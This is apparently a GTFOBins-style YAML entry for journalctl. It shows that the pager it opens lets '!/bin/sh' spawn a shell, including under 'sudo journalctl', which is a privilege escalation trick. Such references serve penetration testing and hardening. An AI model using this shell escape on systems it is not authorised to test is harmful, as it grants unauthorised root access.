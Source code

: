 ```yaml
---
description: |
  This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.

  This might not work if run by unprivileged users depending on the system configuration.
functions:
  execute-interactive:
    - code: |
        journalctl
        !/bin/sh
  sudo-enabled:
    - code: |
        sudo journalctl
        !/bin/sh
---
```

